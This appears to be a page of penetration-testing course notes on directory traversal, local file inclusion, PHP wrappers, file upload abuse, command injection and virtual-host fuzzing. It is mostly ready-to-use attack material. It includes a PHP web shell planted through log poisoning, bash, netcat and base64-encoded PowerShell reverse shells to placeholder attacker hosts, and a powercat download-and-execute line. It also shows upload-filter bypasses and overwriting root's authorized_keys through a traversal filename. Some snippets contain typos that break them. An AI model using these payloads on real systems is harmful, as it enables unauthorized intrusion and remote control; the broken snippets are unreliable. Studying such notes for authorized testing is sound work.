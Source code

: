 ## Section 9.1 Directory Traversal
### Subsection 9.1.2 Identifying and Exploiting Directory Traversals
- Most websites are run in a subdirectory of a low privileged user called www-data
	- /var/www/html/
	- C:\inetpub\wwwroot
- SSH keys can usually be located in ~/.ssh/
- To SSH using a private key file do the following 
```
sudo chmod 400 KEY_FILE
```
```
rm ~/.ssh/known_hosts
```
```
ssh -i KEY_FILE user@IP
```
## Section 9.2 File Inclusion Vulnerabilities
### Subsection 9.2.1 Local File Inclusion (LFI)
- One way to achieve LFI is to include executable code in a local file like access.log at /var/log/apache2/ then browsing to the page which will execute our code
- LFI can be used to get a reverse shell or to add our authorized key to the authorized keys file 
- to generate an authorized key 
- Quick php one-liner for LFI or as a stand-alone file for web app cmd access
```
<?php echo system($_GET['cmd']; ?>)
```
- Sent the following as the user-agent in the header
	- This was saved to ../../../../../../../../../var/log/apache2/access.log
	- Now when this file is called wiht &cmd=COMMAND the output comes back with the log file information and the cmd output based on where it has been stored in the logs 
	- Did have to use url encoding for spaces doing this
```
# Header
User-Agent: <?php echo system($_GET['cmd']; ?>)
# url call 
http://IP/../../../../../../../../../var/log/apache2/access.log&cmd=whoami
```
- Bash one-liner for LFI (encode special characters with url encoding)
```
bash -c "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"
```
### Subsection 9.2.2 PHP Wrappers
- Help to get the code via curl that is not in the webpage when it curled
- allow_url_include setting needs to be enabled in order to get code execution
- php wrappers from the course 
	- php://filter
		- displays the contents of files with or without encodings like ROT13 or Base64
		- helps analyze the web application's logic and look for sensitive information
```
http://IP/index.php?page=php://filter/resource=admin.php
http://IP/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```
- php://data 
	- used to achieve code execution
	- used to embed data elements as plaintext or base64-encoded data running in the web application's code
	- this is an alternative when you cannot poison a local file with PHP code
```
http://IP/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
http://IP/index.php?page=data://text/plain;base64,BASE64_DATA&cmd=ls
```
## Section 9.3 File Upload Vulnerabilities
### Subsection 9.3.1 Using Executable Files
- PHP webshells that can be used for RFI can be found in 
```
/usr/share/webshells/php/
```
- .php files can be blocked on upload.  
	- by changing the extension to .PHp or .pHP or .phps or .php7 you may be able to bypass the filter
- Execution on a windows system
	- One-liner in powershell base64 to bypass a filter and get a reverse shell
```
$Text = '$client = New-Object System.Net.Sockets.TCPCient("SERVER_ADDRESS",SERVER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
```
```
$EncodedText = [Convert]::ToBase64String($Bytes)
```
```
$EncodedText
```
- Copy and paste the output of $EncodedText as the command to get the reverse shell
### Subsection 9.3.2 Using Non-Executable Files
- This includes replacing the ~/.ssh/authorized_keys file with your authorized key
- To generate a key do the following
```
ssh-keygen
```
- filename can be anything but fileup works well
```
cat fileup.pub > authorized_keys
```
- In the burp or curl request make sure the filename goes to the correct folder such as 
```
filename="../../../../../../../root/.ssh/authorized_keys"
```
## Section 9.4 Command Injection
## Section 9.4.1 OS Command Injection
- To determine if cmd or powershell is being executed on a windows machine run the following command to see what interpreter is processing it
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
- One-liner to run powercat from download
```
IEX(New-Object System.Net.WebClient).DownloadString("SERVER_ADDRESS/powercat.ps1");powercat -c LHOST -p LPORT -e powershell
```
- nc reverse shell from victim machine
```
# URL encode as needed
nc -e /bin/bash ATTACKER_IP ATTACKER_PORT
```
## Subdomain and vhost 

```
gobuster vhost --useragent "PENTEST" --wordlist "/path/to/wordlist.txt" --url $URL
```
```
wfuzz -H "Host: FUZZ.something.com" --hc 404,403 -H "User-Agent: PENTEST" -c -z file,"/path/to/wordlist.txt" $URL
```
```
ffuf -H "Host: FUZZ.$DOMAIN" -H "User-Agent: PENTEST" -c -w "/path/to/wordlist.txt" -u $URL
```
```
ffuf -c -r -w "/path/to/wordlist.txt" -u "http://FUZZ.$TARGET/"
```
```
ffuf -w ./vhost -H "Host: FUZZ.inlanefreight.htb" -u http://10.129.136.58 -fs 10918
```
```
ffuf -u http://94.237.59.63:40817 -H "Host: FUZZ.inlanefreight.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 10198 -mc 200
```
```
ffuf -u http://94.237.59.63:40817 -H "Host: FUZZ.inlanefreight.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 116 -mc 200
```